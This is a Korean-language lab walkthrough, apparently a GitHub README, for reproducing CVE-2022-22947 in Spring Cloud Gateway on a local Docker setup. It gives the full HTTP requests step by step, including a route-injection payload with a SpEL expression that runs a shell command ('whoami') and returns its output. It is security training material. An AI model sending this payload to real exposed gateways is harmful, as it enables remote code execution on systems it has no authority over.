





# Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

**Contributors**

-   [박천웅(@CheonWoong-Park)](https://github.com/CheonWoong-Park)

Spring Cloud Gateway는 Spring WebFlux 위에 API Gateway를 구축하기 위한 라이브러리입니다.

3.1.0 및 3.0.6 이전 버전의 Spring Cloud Gateway를 사용하는 애플리케이션은 Gateway Actuator EndPoint를 사용하도록 설정되고 노출되며 보안이 해제된 경우 취약점이 발생합니다. 
원격 공격자는 악의적으로 조작된 요청을 수행하여 원격 호스트에서 임의의 원격 실행을 허용할 수 있습니다.

참고자료:

- <https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>
- <https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.md#spring-cloud-gateway-actuator-api-spel-code-injection-cve-2022-22947>

## 취약점 환경

먼저, Spring Cloud Gateway 3.1.0을 사용하는 서버를 구축 해야합니다.
아래 내용은 WSL2(Ubuntu)환경에서 실습하였습니다.

docker-compose.yml을 기반으로 도커 컨테이너를 구축합니다.

```
docker-compose up -d
```

서버가 시작되면, http://localhost:8080/ 으로 서버가 돌아갑니다.

## 취약점 실습

작성자는 포스트맨을 이용하였습니다.

1) spring cloud의 Andpoint 취약점을 공격하기 위해 라우터를 추가하는 SpEL식을 리퀘스트합니다.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```



2) SpEL 표현식이 작성된 라우터가 서버에 추가 된 후, 게이트웨이를 새로고침 합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



3) 결과를 받아 오도록 GET메소드 리퀘스트를 보냅니다.

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



4) 그 후, 공격 라우터를 삭제합니다.

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```



5) 다시 게이트웨이를 새로고침합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```


## POC 작성

파이썬을 이용하여 위 단계들을 한번에 이룰 수 있도록 코드를 작성하였습니다.
poc.py() 참고

## POC 출력 결과 
```
python3 poc.py http://localhost:8080
```




